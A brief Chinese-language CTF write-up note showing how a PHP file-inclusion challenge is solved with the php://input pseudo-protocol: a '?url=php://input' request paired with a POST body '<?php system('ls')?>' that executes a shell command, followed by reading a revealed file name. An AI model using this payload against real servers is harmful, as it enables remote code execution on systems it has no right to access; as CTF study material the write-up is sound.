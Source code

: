 #PHP伪协议
```
?url=php://input        -- GET请求的url中拼接伪协议
<?php system('ls')?>    -- post请求内容构造需要执行的代码
```
![[Pasted image 20230116163051.png]]
得到文件名
`ctf_go_go_go`
之后输入
```
?url=ctf_go_go_go
```
得到
![[Pasted image 20230116163212.png]]

